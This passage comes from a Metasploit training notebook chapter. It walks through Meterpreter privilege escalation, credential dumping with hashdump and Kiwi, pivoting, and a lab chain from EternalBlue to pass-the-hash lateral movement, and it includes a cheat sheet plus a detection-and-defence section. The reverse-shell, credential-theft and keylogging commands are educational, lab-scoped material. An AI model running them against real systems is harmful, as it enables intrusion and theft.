- **`getsystem`** — attempts several built-in local escalation techniques (named-pipe impersonation, token duplication) to jump from a local admin to `NT AUTHORITY\SYSTEM`. **Important caveat:** `getsystem` only works if you are *already* a local administrator (or hold the right privileges like `SeImpersonatePrivilege`). It is **not** a magic un-privileged-to-SYSTEM button. If `getsystem` fails, you need a real privesc — a kernel exploit, a service misconfiguration, an unquoted service path, `SeImpersonate` + a Potato attack (`load incognito` / a printspoofer-style module), or the `local_exploit_suggester`:
- **`run post/multi/recon/local_exploit_suggester`** — enumerates the host and lists local exploit modules likely to work. This is the honest privesc path when `getsystem` won't bite.
- **`getprivs`** — dumps the current token's privileges. Seeing `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` on a service account is a green light for a Potato-family escalation.

### Credential harvesting — hashdump and kiwi

Once you are SYSTEM you can read secrets:

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jsmith:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::

meterpreter > load kiwi
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============
Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
jsmith    CORP    8846f7eaee8fb117ad06bdd830b7586c  ...

meterpreter > lsa_dump_sam
meterpreter > lsa_dump_secrets
```

- **`hashdump`** (priv extension) — dumps the local SAM database's NTLM hashes. These feed offline cracking (hashcat, Chapter of the Password Attacks notebook) or **pass-the-hash** lateral movement (`smb_login`, `psexec`, `crackmapexec` with `-H`). Requires SYSTEM.
- **`load kiwi`** — loads **Kiwi**, the in-memory port of **Mimikatz**, straight into the session. No `mimikatz.exe` on disk.
- **`creds_all`** — pull every credential Kiwi can reach: NTLM hashes, and on older/misconfigured hosts, **cleartext passwords** from WDigest/LSASS.
- **`lsa_dump_sam` / `lsa_dump_secrets`** — dump the SAM and LSA secrets (service account passwords, cached domain creds, DPAPI keys).

**Blue team note (previewing Part 12):** `hashdump` and Kiwi both touch LSASS, which is exactly what modern EDR watches most closely. LSASS access from an unusual process, or the named-pipe patterns `getsystem` creates, are high-fidelity detections. On a hardened target these commands frequently trip alerts or fail outright — the "textbook" flow works cleanly only in the lab.

### Persistence — a word of caution

Meterpreter can install persistence (`run persistence`, registry run-keys, scheduled tasks, services). On an authorised engagement, persistence is sometimes in scope to test detection, but it is **high-risk**: it leaves durable changes on the target that you *must* clean up, and a forgotten backdoor is both an ethics failure and a liability. Only deploy persistence when the rules of engagement explicitly allow it, document every artefact, and remove it during cleanup.

---

## Part 10: Pivoting — Routing Through a Compromised Host

The single most valuable thing a Meterpreter session gives you on a real network is **reach**. Your attack box usually cannot talk to the internal server subnet directly — but your foothold *can*. Pivoting turns the compromised host into a router so the rest of Metasploit (and other tools) can attack machines you otherwise could not touch.



### autoroute — teach Metasploit the internal subnet

```
meterpreter > run autoroute -s 10.10.30.0/24
[*] Adding route to 10.10.30.0/255.255.255.0...
meterpreter > run autoroute -p        # print the routing table
meterpreter > background
msf6 > route print
```

- **`run autoroute -s <subnet>`** adds a route so that any Metasploit module targeting `10.10.30.x` is transparently tunnelled through session 1. Now `use auxiliary/scanner/portscan/tcp; set RHOSTS 10.10.30.10; run` scans the DC *through* the foothold. There is also a post module form: `run post/multi/manage/autoroute -s 10.10.30.0/24`.
- **`route print`** (at msf prompt) shows Metasploit's internal routing table — which subnets go via which session.

### portfwd — forward a single port to your loopback

```
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.30.10
[*] Local TCP relay created: :3389 <-> 10.10.30.10:3389
```

Now `rdesktop 127.0.0.1:3389` on your attack box lands on the DC's RDP through the tunnel. Flags: **`-l`** local listen port on your box, **`-p`** the remote port, **`-r`** the remote host. `portfwd list` shows active forwards; `portfwd delete -l 3389` removes one. `portfwd` is perfect for pointing a *single* external tool (an RDP client, a database client) at *one* internal service.

### SOCKS proxy — run any external tool through the pivot

`autoroute` only helps Metasploit's own modules. To route *external* tools (nmap, crackmapexec, a browser) through the pivot, run a SOCKS proxy server that rides on the Metasploit routes:

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Starting the SOCKS proxy server
```

Then point **proxychains** at it (`/etc/proxychains4.conf` → `socks5 127.0.0.1 1080`) and prefix any tool:

```
proxychains nmap -sT -Pn -p 445,3389,5985 10.10.30.10
proxychains crackmapexec smb 10.10.30.0/24 -u jsmith -H 8846f7eaee8fb117ad06bdd830b7586c
proxychains xfreerdp /v:10.10.30.10 /u:Administrator
```

Note the constraint: SOCKS/proxychains tunnels **TCP connect scans only** (`nmap -sT -Pn`), never SYN or UDP scans, because the tunnel operates at the connection layer. This trio — `autoroute` for MSF modules, `portfwd` for one tool/one port, `socks_proxy`+proxychains for everything else — is the complete pivoting toolkit and a staple of every internal engagement and every multi-host HTB/PG box.

---

## Part 11: Encoders, Evasion and the Modern AV/EDR Reality

New operators are taught "encode the payload to bypass antivirus." That advice is a decade out of date and understanding *why* will save you from wasting an engagement on it.

**What encoders actually do.** An encoder (e.g. the famous `x86/shikata_ga_nai`) takes payload bytes and rewrites them into a functionally identical but different-looking byte sequence, wrapped in a small decoder stub that reconstructs the original at runtime. Encoders exist primarily to solve two *technical* problems, not to defeat AV:

- **Bad-character avoidance** — a buffer overflow might mangle any payload containing `\x00` (null), `\x0a` (newline), `\x0d` (carriage return). Encoders let you produce a payload free of those bytes with `msfvenom -b '\x00\x0a\x0d'` (Chapter 5).
- **Architecture/format compatibility** — reshaping bytes to survive a particular delivery channel.

**Why encoding no longer bypasses AV.** `shikata_ga_nai` and friends are themselves *signatured* — AV vendors have had the decoder stubs in their databases for years. Encoding a Meterpreter payload with `shikata_ga_nai` now often makes it *more* detectable, because the encoder signature is itself an IOC. Multiple iterations (`-i 10`) don't help; the outer stub is still recognisable. Meanwhile, modern **EDR** doesn't rely on file signatures at all — it watches *behaviour*: reflective DLL loads, LSASS access, named-pipe impersonation (`getsystem`), suspicious process trees, and known Meterpreter API/memory patterns. A perfectly "encoded" payload that then behaves exactly like Meterpreter is caught on behaviour regardless of how its bytes look.

| Technique | Bypasses signature AV? | Bypasses modern EDR? | Real use |
|---|---|---|---|
| `shikata_ga_nai` encoding | No (stub is signatured) | No | Bad-char removal, format shaping |
| Multiple encode iterations | No | No | Myth; adds size, not stealth |
| Stageless + custom template | Sometimes | Rarely | Modestly better than defaults |
| Custom loader / shellcode runner | Sometimes | Sometimes | Real evasion is bespoke |
| Living-off-the-land (no Meterpreter) | N/A | Often best | Native tools raise fewer flags |

**Honest takeaway for this notebook.** In the lab, default payloads work because your VMs have Defender off or in permissive mode. Against a real hardened endpoint, **out-of-the-box Metasploit payloads are detected on execution**, and serious evasion is a specialised discipline (custom loaders, syscall stubs, sleep obfuscation, and mature C2 frameworks built for it) that is out of scope here and deployed only under explicit authorisation. The right lesson is not "which `-e` flag wins" but "understand that Metasploit's stock payloads are loud, and treat evasion as a separate, carefully-scoped problem." `msfvenom` and encoders get their proper, honest treatment in Chapter 5 — for bad-character handling and payload generation, which is what they're genuinely good for.

---

## Part 12: Detection & Defense Angle

Everything above is offense. This consolidated section is the defender's mirror — how a blue team sees, detects and blunts the exact activity this chapter teaches. If you only ever attack, you'll never understand why real environments are harder than the lab.

**Network-layer detection of callbacks and pivots:**

- **Beaconing patterns.** Reverse Meterpreter (especially HTTP/S) polls at regular intervals. Analytics that flag regular-interval, low-jitter connections to a single external host catch default beacons. Randomising jitter is an attacker countermeasure — so *low* jitter is itself a signal.
- **Bare-IP TLS with no reputation.** `reverse_https` to an IP with a self-signed cert, no SNI, and no domain reputation stands out. **JA3/JA3S TLS fingerprints** of the default Meterpreter stager are publicly catalogued; matching them flags the session even inside encryption.
- **Odd ports / protocol mismatch.** `reverse_tcp` on port 4444 (the Metasploit default) is a meme for a reason — leaving defaults is how labs get "caught" instantly. Egress filtering that only permits known-good destinations kills most reverse shells outright.
- **Internal pivot noise.** A single workstation suddenly SYN-scanning a server subnet (the autoroute/socks portscan) is anomalous lateral behaviour that internal netflow and east-west sensors catch.

**Host-layer detection:**

- **LSASS access** — `hashdump`, `kiwi`, `lsa_dump_*` all read LSASS memory. EDR products treat non-standard LSASS handle opens as one of their highest-fidelity detections. Sysmon **Event ID 10** (ProcessAccess) targeting `lsass.exe` is the classic hunt.
- **`getsystem`** uses **named-pipe impersonation**; the pipe creation and token manipulation are detectable (Sysmon EID 17/18 for pipe events, plus token-privilege abuse telemetry).
- **Reflective/in-memory injection** — Meterpreter's hallmark. Sysmon **EID 8 (CreateRemoteThread)** and **EID 25 (ProcessTampering)**, plus EDR memory scanning, target exactly this. Migration (`migrate`) creates a remote thread in the destination process — another EID 8 hit.
- **Process lineage** — an exploited service (`w3wp.exe`, `spoolsv.exe`) suddenly spawning `cmd.exe`/`powershell.exe` is an anomalous parent-child relationship that behavioral rules flag immediately.

**Defensive controls that actually blunt this chapter's techniques:**

| Control | What it stops |
|---|---|
| Strict egress filtering / allow-listed proxies | Reverse callbacks with nowhere to go |
| Credential Guard / LSA protection (RunAsPPL) | `hashdump`/`kiwi` reading LSASS |
| Disabling WDigest (default on modern Windows) | Cleartext creds from `creds_all` |
| EDR with memory + behavioural detection | In-memory Meterpreter, injection, migration |
| Network segmentation / east-west firewalls | Pivoting between subnets |
| LAPS (unique local admin passwords) | Pass-the-hash lateral spread from `hashdump` |
| Application allow-listing (WDAC/AppLocker) | Dropped `msfvenom` executables |

**IR use case:** when investigating a suspected Meterpreter compromise, a responder pulls Sysmon EID 8/10/17, hunts for LSASS access from non-standard processes, checks for the process migration chain, reviews egress netflow for beaconing to a bare IP, and pulls memory (Volatility) to find the reflectively-loaded, disk-less DLL that no file scan would reveal. The very "in-memory, no disk artefact" property that helps the attacker is what forces the responder to *memory forensics* — where Meterpreter is quite visible.

---

## Part 13: Hands-On Lab — From Exploit to Meterpreter to Loot to Pivot

This lab is fully reproducible on your own hardware and touches only VMs you build and own. It walks the entire chapter end to end: configure and fire an exploit, catch Meterpreter, migrate, escalate, harvest credentials, then pivot to a second host. Every command is real, every flag is explained, and the output shown is representative of what you will actually see.

### Lab topology and build

You need a hypervisor (VirtualBox or VMware) and three VMs on a **host-only / internal network** (never bridge a deliberately vulnerable box to a network with internet or other people's machines):

| Role | VM | IP | Purpose |
|---|---|---|---|
| Attacker | Kali Linux | 10.10.14.7 | Runs Metasploit |
| Foothold | Metasploitable 3 (Windows) **or** a patched-down Win10 lab VM | 10.10.20.5 | First target |
| Internal | A second Windows/Linux VM, reachable only from the foothold | 10.10.30.10 | Pivot target |

Put the foothold on *two* virtual NICs: one on the `10.10.20.0/24` network Kali can see, and one on a `10.10.30.0/24` "internal" network Kali **cannot** reach directly. That second network is what makes the pivot meaningful. For a self-contained option, the deliberately vulnerable **Metasploitable 3** boxes are purpose-built for exactly this exercise. If you prefer a guided cloud version, HTB/PG/THM boxes (see Part 16) reproduce the same flow.

> Ethics gate: these are intentionally vulnerable machines. Keep them isolated on a host-only network, snapshot before you start, and never expose them. Everything below assumes you own or are authorised to test every IP.

### Step 0 — start the database and console

```
┌──(kali㉿kali)-[~]
└─$ sudo systemctl start postgresql
┌──(kali㉿kali)-[~]
└─$ sudo msfdb init          # first run only; initialises the msf database
┌──(kali㉿kali)-[~]
└─$ msfconsole -q
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
msf6 > workspace -a lab-ch4
[*] Added workspace: lab-ch4
msf6 > workspace lab-ch4
```

`db_status` confirms the PostgreSQL backend (Chapter 3) is live so hosts, services and loot are recorded. `workspace -a lab-ch4` isolates this engagement's data.

### Step 1 — confirm the target and pick an exploit

Assume prior scanning (from the Scanning & Enum notebook) already told you `10.10.20.5` runs a vulnerable SMB service. Import or scan it into the database:

```
msf6 > db_nmap -sV -p 445 10.10.20.5
[*] Nmap: 445/tcp open  microsoft-ds Windows ... microsoft-ds
msf6 > search ms17_010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > info
```

`info` prints the description, rank (`average`), targets, options and references. Read it before firing — a memory-corruption SMB exploit *can* blue-screen the target, which is why you snapshot first.

### Step 2 — configure options and run check

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.20.5
RHOSTS => 10.10.20.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
msf6 exploit(windows/smb/ms17_010_eternalblue) > check
[*] 10.10.20.5:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.20.5:445 - Host is likely VULNERABLE to MS17-010! ...
[*] 10.10.20.5:445 - The target is vulnerable.
```

`check` used a companion scanner to confirm vulnerability *without* exploiting — exactly the non-destructive pre-flight from Part 1. Green `[+]` and "target is vulnerable" mean proceed.

### Step 3 — choose and configure the payload

```
msf6 exploit(...eternalblue) > show payloads
msf6 exploit(...eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(...eternalblue) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf6 exploit(...eternalblue) > set LPORT 4444
LPORT => 4444
msf6 exploit(...eternalblue) > show options
```

Staged x64 Meterpreter over reverse TCP (Part 3/4): the target is x64, we have a stable host-only link so staging is fine, and reverse TCP works because the lab has no egress filtering. `LHOST` is Kali's IP as the target sees it; `LPORT` is the port our auto-started handler will listen on.

### Step 4 — exploit and catch Meterpreter

```
msf6 exploit(...eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.7:4444
[*] 10.10.20.5:445 - Executing automatic check (disable AutoCheck to override)
[+] 10.10.20.5:445 - The target is vulnerable.
[*] 10.10.20.5:445 - Connecting to target for exploitation.
[+] 10.10.20.5:445 - Connection established for exploitation.
[*] 10.10.20.5:445 - Sending all but last fragment of exploit packet
[*] 10.10.20.5:445 - Starting non-paged pool grooming
[+] 10.10.20.5:445 - Sending SMBv2 buffers
[*] 10.10.20.5:445 - Sending final SMBv2 buffers.
[*] 10.10.20.5:445 - Sending last fragment of exploit packet!
[*] 10.10.20.5:445 - Receiving response from exploit packet
[+] 10.10.20.5:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] Sending stage (200774 bytes) to 10.10.20.5
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.20.5:49772)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer     : WEB01
OS           : Windows ... x64
Domain       : CORP
```

Trace the lifecycle from Part 1: handler started → check → exploit packet built and sent → "overwrite completed" → **stage (200774 bytes) sent** (the second-phase transfer from Part 3) → session opened. EternalBlue lands you as SYSTEM directly (it exploits the kernel), so no privesc is needed here — but we'll demonstrate the escalation flow anyway in Step 6 on a scenario where you land unprivileged.

### Step 5 — migrate for stability

```
meterpreter > ps
 PID   PPID  Name           Arch  Session  User                 Path
 ---   ----  ----           ----  -------  ----                 ----
 4820  672   spoolsv.exe    x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\spoolsv.exe
 6604  620   explorer.exe   x64   1        CORP\jsmith          C:\Windows\explorer.exe
 892   672   lsass.exe      x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > migrate -N spoolsv.exe
[*] Migrating from 3012 to 4820...
[*] Migration completed successfully.
meterpreter > getpid
Current pid: 4820
```

We migrated into `spoolsv.exe` — a long-lived SYSTEM service — so the session survives even though the exploited process could be unstable. (Part 9: arch must match; both are x64, so it succeeds.)

### Step 6 — the honest privesc path (unprivileged scenario)

On a box where your initial foothold is *not* SYSTEM (say a phished user shell you upgraded with `sessions -u`), the flow is:

```
meterpreter > getuid
Server username: CORP\jsmith
meterpreter > getprivs
...
SeImpersonatePrivilege
...
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The requested operation requires elevation.
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.20.5 - Collecting local exploits for x64/windows...
[+] 10.10.20.5 - exploit/windows/local/... : The target appears to be vulnerable.
```

`getsystem` failed because `jsmith` is not a local admin (Part 9's key caveat). The `local_exploit_suggester` then enumerates viable local exploits; you `use` one, `set SESSION 1`, and `run` it to gain SYSTEM. With `SeImpersonatePrivilege` present, a Potato-family/`incognito` route is also available. This is the *realistic* escalation loop — not a blind `getsystem`.

### Step 7 — harvest credentials

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jsmith:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::

meterpreter > load kiwi
[*] Loading extension kiwi...Success.
meterpreter > creds_all
[+] Running as SYSTEM
...
msv credentials
jsmith  CORP  8846f7eaee8fb117ad06bdd830b7586c

meterpreter > background
msf6 > creds          # the DB now stores harvested creds
```

The NTLM hashes go to hashcat for cracking *and* straight into pass-the-hash for the pivot. `creds` shows the database-stored loot (Chapter 3's database in action).

### Step 8 — pivot to the internal host

```
msf6 > sessions -i 1
meterpreter > run autoroute -s 10.10.30.0/24
[*] Adding route to 10.10.30.0/255.255.255.0...
meterpreter > background
msf6 > route print
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.10.30.10
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389,5985
msf6 auxiliary(scanner/portscan/tcp) > run
[+] 10.10.30.10:        - 10.10.30.10:445 - TCP OPEN
[+] 10.10.30.10:        - 10.10.30.10:3389 - TCP OPEN
```

Kali cannot reach `10.10.30.10` directly, yet the scan works — because `autoroute` tunnelled it through session 1 (Part 10). Now use the stolen hash for a pass-the-hash attack against the internal host, all through the pivot:

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > run -j
# in another terminal, with proxychains configured for socks5 127.0.0.1 1080:
$ proxychains crackmapexec smb 10.10.30.10 -u Administrator \
    -H 31d6cfe0d16ae931b73c59d7e0c089c0
SMB  10.10.30.10  445  DC01  [+] CORP\Administrator ... (Pwn3d!)
```

`(Pwn3d!)` means the harvested Administrator hash authenticated to the internal host over the pivot — a full chain from a single external SMB flaw to domain-relevant lateral movement, exactly the arc a real internal engagement follows.

### Step 9 — clean up

```
meterpreter > sessions -K            # from msf prompt: sessions -K to kill all
msf6 > jobs -K                       # kill background handlers/proxies
```

Revert every VM to its pre-lab snapshot. If you deployed any persistence (you shouldn't have here), remove it now and confirm removal. Cleanup is part of the job, not an afterthought.

---

## Part 14: Common Pitfalls and How to Avoid Them

- **"Exploit completed, but no session was created."** The exploit ran but the payload couldn't call back. Check, in order: is `LHOST` your *routable* IP as the target sees it (VPN `tun0`, not `eth0`; not `127.0.0.1`)? Is `LPORT` open and not already bound? Does a firewall block the callback? Did you actually set a payload? Is the payload arch matching the target (x64 payload on x64 host)? On unreliable links, switch to `reverse_https` for resilience.
- **Payload/handler mismatch.** With `multi/handler`, the `PAYLOAD`, `LHOST`, and `LPORT` must be *identical* to what was baked into the delivered payload. A `reverse_tcp` handler will never catch a `reverse_https` payload. This is the #1 msfvenom-plus-handler failure.
- **Wrong architecture.** Setting an x86 payload against an x64 process (or vice-versa) fails silently or crashes. Prefer `windows/x64/...` on 64-bit hosts. Migration also fails across an arch boundary.
- **`getsystem` treated as magic.** It only works if you're already local admin / hold the right privileges. If it fails, that's expected — reach for `local_exploit_suggester`, a service misconfig, or a `SeImpersonate`/Potato route. Don't spam `getsystem`.
- **"Unknown command: hashdump/ps/download."** You're either on a raw *shell* (not Meterpreter — upgrade with `sessions -u`), the extension isn't loaded (`load stdapi` / `load priv`), or you're on the wrong platform.
- **Leaving defaults (`LPORT 4444`, no SSL, bare IP).** Fine in the lab, instantly flagged in monitored environments. On real engagements, use sane ports, HTTPS transports and redirectors.
- **Forgetting `exploit -j` / `set ExitOnSession false`.** Without them your handler blocks the console or dies after one catch — painful when you expect multiple callbacks.
- **Not migrating off an unstable process.** Exploit a service that then crashes and your session dies. Migrate into `explorer.exe` or a stable service early.
- **Windows path escaping.** Use `C:\\Windows\\Temp` (escaped) or `C:/Windows/Temp` (forward slashes) in Meterpreter; a single backslash gets eaten.
- **Skipping `check` and snapshots on fragile exploits.** Memory-corruption exploits (EternalBlue, BlueKeep) can crash targets. Run `check`, prefer higher ranks, and snapshot lab VMs first.
- **Losing track of sessions.** Name them (`sessions -n`). Running a destructive command on the wrong SYSTEM session because you mis-read the ID is a real incident.

---

## Part 15: Final Revision / Summary

The mental model to carry out of this chapter:

- **The exploit is only a delivery mechanism; the payload is the code that runs.** They're decoupled modules — the same Meterpreter payload rides any compatible exploit. When you fire, the framework starts a *handler* first, then sends the malicious input; the target executes the payload and calls back to form a **session**.
- **Targets** enumerate the specific builds an exploit knows how to hit and constrain payload arch. Set the explicit target when you know the OS; automatic can crash a host by guessing wrong.
- **Payloads are built from singles, stagers and stages.** `meterpreter/reverse_tcp` (slash) is *staged* — tiny stager pulls the big Meterpreter stage into memory. `meterpreter_reverse_tcp` (underscore) is *stageless* — one self-contained blob. Staged fits small buffers and is stealthier in memory; stageless is more robust and better for standalone files.
- **Reverse vs bind** is dictated by the network: reverse (target dials out) beats firewalls/NAT and wins almost always; bind (you dial in) is for when the target has no route back but you can reach it. The **transport** (`tcp`/`http`/`https`) is a stealth and resilience choice — HTTPS survives dropped links and inspection best.
- **`multi/handler`** is the standalone listener that catches any delivered payload; match payload+LHOST+LPORT exactly, use `-j` and `ExitOnSession false`, script it with a `.rc`.
- **Meterpreter** is an in-memory, reflectively-loaded, TLV-speaking, AES-encrypted, runtime-extensible agent. Its command set spans filesystem, system, networking and UI; extensions (`stdapi`, `priv`, `kiwi`, `incognito`) add capability on demand.
- **Post-exploitation:** `migrate` for stability, `getsystem`/`local_exploit_suggester` for privilege, `hashdump`/`kiwi`/`creds_all` for credentials — all with the honest caveats about when they work and how loudly they trip EDR.
- **Pivoting** (`autoroute`, `portfwd`, `socks_proxy`+proxychains) turns one foothold into reach across internal subnets — the highest-value thing a session buys you.
- **Encoders don't beat modern AV/EDR** — they solve bad-character and format problems. Stock Metasploit payloads are loud; real evasion is a separate, scoped discipline.
- **Defenders** catch this via beaconing analytics, TLS/JA3 fingerprints, LSASS-access and injection telemetry, process-lineage anomalies, and controls like egress filtering, LSA protection, EDR, segmentation and LAPS.

Chapter 5 takes the payload half of this chapter standalone: **`msfvenom`** — generating payloads outside the framework, output formats, bad-character handling, encoders and templates, plus the delivery-and-catch loop with `multi/handler`. Chapter 6 closes the arc with dedicated post-exploitation modules, automation and deeper pivoting.

---

## Part 16: Cheat Sheet / Quick Reference

**Exploit configuration**

```
use exploit/<path>              # select an exploit module
show options / show missing     # required settings
show targets ; set TARGET <id>  # pick the victim build
set RHOSTS <ip> ; set RPORT <p> # the target
check                           # non-destructive vuln probe
info                            # full module detail + rank + refs
```

**Payload selection**

```
show payloads                   # compatible payloads only
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <your-ip> ; set LPORT 443
# staged  = meterpreter/reverse_tcp   (slash)
# stageless = meterpreter_reverse_tcp (underscore)
```

**Standalone handler**

```
use exploit/multi/handler
set PAYLOAD <same as delivered payload>
set LHOST <ip> ; set LPORT <port>
set ExitOnSession false
exploit -j            # background;  -z = catch without interacting
msfconsole -q -r handler.rc   # scripted listener
```

**Sessions**

```
background / Ctrl-Z             # leave a session running
sessions -l                    # list
sessions -i <id>               # interact
sessions -k <id> / -K          # kill one / all
sessions -u <id>               # upgrade shell -> Meterpreter
sessions -n <name> -i <id>     # name a session
sessions -C "getuid"           # run cmd across all meterpreter sessions
```

**Meterpreter — recon & files**

```
sysinfo ; getuid ; getpid ; ps ; getenv
ls ; cd ; pwd ; cat ; edit
download <r> <l> [-r] ; upload <l> <r>
search -f *.kdbx -d C:\\Users
ipconfig ; arp ; netstat -ano ; route
shell                          # drop to native cmd/sh
```

**Meterpreter — post-ex**

```
migrate -N explorer.exe        # move to a stable process
getprivs ; getsystem           # privilege (needs local admin)
run post/multi/recon/local_exploit_suggester
load priv ; hashdump           # SAM NTLM hashes (SYSTEM)
load kiwi ; creds_all ; lsa_dump_secrets
load incognito ; list_tokens -u ; impersonate_token '<DOM\\user>'
screenshot ; keyscan_start
```

**Pivoting**

```
run autoroute -s 10.10.30.0/24         # route MSF modules via session
run autoroute -p ; route print          # show routes
portfwd add -l 3389 -p 3389 -r <ip>     # forward one port to loopback
use auxiliary/server/socks_proxy ; set VERSION 5 ; run -j
proxychains <tool> <internal-ip>        # any tool through the pivot
```

**Jobs**

```
exploit -j ; jobs -l ; jobs -k <id> ; jobs -K
```

---

## Part 17: Practice Labs & Resources

Train these exact skills — payload selection, catching Meterpreter, post-ex and pivoting — on machines built for it:

- **TryHackMe — "Metasploit: Exploitation"** and **"Metasploit: Meterpreter"** rooms: the most direct, guided coverage of everything in this chapter, from `multi/handler` to Meterpreter post-ex.
- **TryHackMe — "Blue"** (MS17-010/EternalBlue): reproduces the Step 4 exploit-to-SYSTEM flow used in the lab, plus `hashdump` and hash cracking.
- **TryHackMe — "Ice"** and **"Blaster"**: Meterpreter, migration, `local_exploit_suggester` privesc, and post-exploitation on Windows.
- **HackTheBox — "Legacy" and "Lame"**: classic single-exploit-to-shell boxes ideal for the exploit→session workflow; **"Devel"** and **"Optimum"** add the `local_exploit_suggester`/kernel-privesc loop from Step 6.
- **HackTheBox Pro Labs / multi-host boxes** (e.g. Dante, or any box with an internal-only subnet): the place to practise `autoroute` + `socks_proxy` pivoting from Step 8 for real.
- **Metasploitable 3 (Windows + Linux)**: the self-hosted, offline lab used in Part 13 — build it on your own hypervisor and run the full chain with no VPN or subscription.
- **Proving Grounds (Offsec Play/Practice)**: OSCP-style boxes where the exploit→Meterpreter→privesc→loot pattern is drilled repeatedly under exam-like conditions.
- **Offensive Security's Metasploit Unleashed** (free): the canonical written reference for msfconsole, payloads, Meterpreter and post-exploitation — use it alongside these rooms to look up any command in depth.

Work them in order: single-exploit boxes first (Legacy/Lame/Blue) to cement the exploit→session→Meterpreter loop, then privesc boxes (Devel/Optimum/Ice) for `getsystem`/`local_exploit_suggester`, then a multi-host lab for pivoting. By the end you should be able to go from an open port to a pivoted, credential-backed foothold on a second subnet without notes — which is exactly what Chapter 5 (`msfvenom`) and Chapter 6 (post-exploitation & automation) build on next.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-exploitation/04-metasploit-part-2-exploits-payloads-sessions-and-meterpreter), with comments and the latest edits.*
